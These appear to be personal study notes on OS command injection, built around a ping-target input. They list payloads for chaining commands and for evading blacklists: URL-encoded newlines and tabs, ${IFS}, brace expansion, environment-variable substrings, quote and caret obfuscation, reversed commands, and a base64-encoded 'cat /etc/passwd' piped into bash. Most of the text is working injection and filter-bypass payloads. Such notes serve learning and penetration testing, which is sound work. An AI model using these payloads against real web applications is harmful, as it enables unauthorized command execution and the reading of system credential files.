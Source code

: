 ![[Pasted image 20250415174021.png]]
![[Pasted image 20250415174756.png]]

**AND (&&) Operator** - `ping -c 1 127.0.0.1 && whoami` : This will execute both the commands.
**OR (||) Operator** - `ping -c 1 127.0.0.1 || whoami` : This runs second command only if the first commands fail to execute
![[Pasted image 20250416101227.png]]

**Check for Blacklisted Characters :**  A web application may have a list of blacklisted characters, and if the command contains them, it would deny the request. 

## Bypassing Blacklisted Characters
- Spaces - `127.0.0.1%0awhoami
- Use Tabs - `127.0.0.1%0a%09`
- Use IFS - `127.0.0.1%0a${IFS}`
- Using Brace Expansions - `127.0.0.1%0a{ls,-la}`
- `LINUX` If `/` is blacklisted then we can use something like - `${PATH:0:1}`, this prints the same output
-  `LINUX` If `;` is blacklisted then we can use something like - `${LS_COLORS:10:1}`
- `WINDOWS` If `/` is blacklisted then we can use something like - `echo %HOMEPATH:~6,-11%`

## Bypassing Blacklisted Commands
- If a command like `whoami` is blacklisted, then for `BASH` or `POWERSHELL` we can use - `w'h'o'am'i`
- If a command like `whoami` is blacklisted and it's confirmed that it is `LINUX BASH`, then we can use- `who$@ami`  or  `w\ho\am\i`
- If a command like `whoami` is blacklisted and it's confirmed that it is `WINDOWS`, then we can use - `who^ami`
- We can use Case Manipulation - `WhOaMi`
- `$(a="WhOaMi";printf %s "${a,,}")`
- `LINUX` Reversed Command - `$(rev<<<'imaohw')`
- `POWERSHELL` Reversed Command - `iex "$('imaohw'[-1..-20] -join '')"`
- Encode the Command using - `echo -n 'cat /etc/passwd | grep 33' | base64` and then use the payload as : `bash<<<$(base64 -d<<<Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==)`

